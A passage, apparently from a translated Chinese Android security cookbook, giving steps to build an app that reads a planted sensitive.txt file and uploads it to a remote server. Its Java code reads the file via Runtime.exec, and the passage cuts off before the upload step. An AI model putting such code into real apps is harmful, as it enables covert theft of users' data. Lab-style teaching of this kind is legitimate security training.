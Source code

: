 1.  验证文件是否已创建：

    ```
    **cat /sdcard/sensitive.txt**

    ```

    ![如何做...](img/image_02_016.jpg)

现在我们已经准备好敏感文件，让我们编写代码来窃取该文件并将其上传到服务器。按照前面的食谱步骤创建一个新项目并打开基本项目窗口，然后执行以下步骤：

1.  我们现在将添加代码来读取`sensitive.txt`并将其数据上传到远程服务器。

1.  在左侧窗口中，导航到并打开`MainActivity.java`文件，路径为`app` | `java` | `com."your_package_name"` | `MainActivity`。

1.  将以下代码添加到`protected void onCreate(Bundle savedInstanceState)`函数内，`setContentView(R.layout.activity_main);`行下方：

    ```
    FileInputStream in; 
      BufferedInputStream buf; 

      Intent intent = getIntent(); 
      Bundle extras = intent.getExtras(); 

      StringBuffer sb = new StringBuffer(""); 
      String line = ""; 
      String NL = System.getProperty("line.separator"); 
      String str = "cat /mnt/sdcard/sensitive.txt"; 

      Process process = null; 
      try { 
        process = Runtime.getRuntime().exec(str); 
      } catch (IOException e) { 
         throw new RuntimeException(e); 
      } 

     BufferedReader reader = new BufferedReader(new InputStreamReader(process.getInputStream())); 

      int read; 
      char[] buffer = new char[4096]; 
      StringBuffer output = new StringBuffer(); 
      try { 
        while ((read = reader.read(buffer)) > 0) { 
          output.append(buffer, 0, read); 
        } 
      } catch (IOException e) { 
        throw new RuntimeException(e); 
      } 

      try { 
        reader.close(); 
      } catch (IOException e) { 
         throw new RuntimeException(e); 
      } 
      try { 
        process.waitFor(); 
      } catch (InterruptedException e) { 
